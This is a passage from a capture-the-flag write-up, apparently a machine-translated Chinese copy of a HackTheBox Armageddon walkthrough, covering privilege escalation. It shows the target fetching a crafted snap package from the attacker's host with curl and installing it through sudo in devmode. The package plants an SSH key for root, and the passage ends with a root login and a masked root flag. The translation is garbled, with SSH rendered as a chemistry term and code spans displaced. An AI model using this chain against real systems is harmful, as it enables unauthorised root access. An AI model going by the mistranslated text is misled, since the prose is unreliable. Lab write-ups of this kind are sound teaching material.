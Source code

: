 
### 转移到世界末日

我将在我的本地框上的目录中启动一个 Python HTTP 服务器，其中快照包位于：

    oxdf@parrot$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    

现在从世界末日，我会要求它。 未安装，但为：`wget``curl`

    [brucetherealadmin@armageddon shm]$ curl 10.10.14.7/armageddon_0.1_amd64.snap -o armageddon_0.1_amd64.snap
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  4096  100  4096    0     0  21478      0 --:--:-- --:--:-- --:--:-- 21671
    

### 安装快照

要安装该软件包，我将运行该命令并将其传递给快照。它失败了：`sudo`

    [brucetherealadmin@armageddon shm]$ sudo snap install armageddon_0.1_amd64.snap 
    error: cannot find signatures with metadata for snap "armageddon_0.1_amd64.snap"
    

一些[谷歌搜索](https://askubuntu.com/questions/822765/snap-install-failure-error-cannot-find-signatures-with-metadata-for-snap)此错误建议添加 ，现在给出一个不同的错误：`--dangerous`

    [brucetherealadmin@armageddon shm]$ sudo snap install --dangerous armageddon_0.1_amd64.snap 
    error: snap "armageddon_0.1_amd64.snap" requires devmode or confinement override
    

谷歌搜索导致[有关 的帖子](https://askubuntu.com/questions/783945/what-is-devmode-for-snaps)，其工作原理：`--devmode`

    [brucetherealadmin@armageddon shm]$ sudo snap install --devmode armageddon_0.1_amd64.snap 
    armageddon 0.1 installed
    

### 固态混合苯

如果该安装像我希望的那样工作，我的公钥现在在 中，我应该能够与SSH连接。成功了：`/root/.ssh/authorized_keys`

    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.233
    Last login: Fri Mar 19 07:56:39 2021
    [root@armageddon ~]# 
    

我可以得到根标志：

    [root@armageddon ~]# cat root.txt
    a289b09c************************
    

## 超越根

为了查看该 Ruby 脚本，我在 Burp 中设置了一个新的侦听器，该侦听器将侦听端口 8888 并将所有流量转发到 10.10.10.233 端口 80：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210326161915166.png) 
